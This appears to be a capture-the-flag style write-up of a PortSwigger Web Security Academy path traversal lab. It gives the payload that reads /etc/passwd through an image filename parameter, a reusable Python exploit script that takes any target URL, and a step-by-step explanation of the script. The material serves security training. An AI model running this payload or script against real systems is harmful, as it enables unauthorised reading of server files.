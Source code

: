 # File path traversal, simple case

https://portswigger.net/web-security/file-path-traversal/lab-simple

This lab contains a path traversal vulnerability in the display of product images.
To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solution

To solve this, we must find a way to get into the folder `/etc/passwd`. We can do this using path traversal.
Lets check one of the url of the images in the webpage.

```
https://0a5700da038af37982ad984100db00b2.web-security-academy.net/image?filename=16.jpg
```

From here we can just edit the file name to go to our desired folder.
Often the files for web servers are located in `/var/www/html` and in this case it could be inside a folder `/images` but we don't know for sure. 
What we can do is move up the folder a couple of times to make sure that when we include the path to our `passwd` file, we are in the root directory. 

```
https://0a5700da038af37982ad984100db00b2.web-security-academy.net/image?filename=../../../../etc/passwd
```

And with this we have solved the lab!

Python script to automate:

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```

  
This Python script is designed to exploit a directory traversal vulnerability in a web application. Directory traversal is a type of attack that allows an attacker to access directories and files that are outside the intended directory.

Let's break down the code step by step:

**Imports**:

```python
import sys 
import requests 
import urllib3
```

- `sys`: Provides access to some variables used or maintained by the interpreter and to functions that interact with the interpreter.
- `requests`: A popular Python library for making HTTP requests.
- `urllib3`: A powerful library for handling HTTP requests in Python.

**Disable Warnings**:

```python
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```

This disables the warnings related to insecure requests. It's commonly used to suppress warnings when making requests to sites with invalid or self-signed SSL certificates.

**Proxies Configuration**:

```python
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```

This sets up proxy settings. The script is configured to use a proxy server running on `127.0.0.1` at port `8080` for both HTTP and HTTPS requests. This is useful for intercepting and inspecting the traffic using tools like Burp Suite.

**directory_traversal_exploit Function**:

```python
def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)
```

- This function constructs a URL that attempts to access the `/etc/passwd` file on the target system by exploiting the directory traversal vulnerability.
- It sends an HTTP GET request to this URL using the `requests.get()` method.
- If the response text contains 'root:x', it indicates that the exploit was successful, and the content of the `/etc/passwd` file is printed.
- If the exploit fails, it prints a failure message and exits the script.

**main Function**:

```python
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)
```

- This function is the main entry point of the script.
- It checks if the script is provided with exactly one command-line argument (the target URL).
- If the correct number of arguments is not provided, it prints the correct usage of the script and exits.
- It then calls the `directory_traversal_exploit()` function with the provided URL.

**Script Execution**:

```python
if __name__ == "__main__":
    main()
```

This block ensures that the `main()` function is executed when the script is run as the main program.

To use this script, you would run it from the command line, providing the target URL as an argument. For example:

```shell
python3 script_name.py www.target-site.com
```

Replace `script_name.py` with the actual name of the script file.

